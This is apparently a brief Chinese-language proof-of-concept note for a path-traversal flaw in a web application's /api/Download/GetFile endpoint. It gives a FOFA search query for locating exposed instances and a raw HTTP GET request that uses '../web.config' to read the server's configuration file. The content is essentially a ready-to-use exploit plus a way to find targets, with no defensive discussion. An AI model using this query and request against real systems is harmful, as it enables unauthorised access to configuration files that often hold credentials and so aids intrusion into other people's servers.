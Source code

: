 ## fofa查询语句

body="/api/DBRecord/getDBRecords"

## 漏洞复现

漏洞链接：http://xx.xx.xx.xx/api/Download/GetFile?FileName=../web.config&Title=123

```yaml
GET /api/Download/GetFile?FileName=../web.config&Title=123 HTTP/1.1
Host: xx.xx.xx.xxx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```

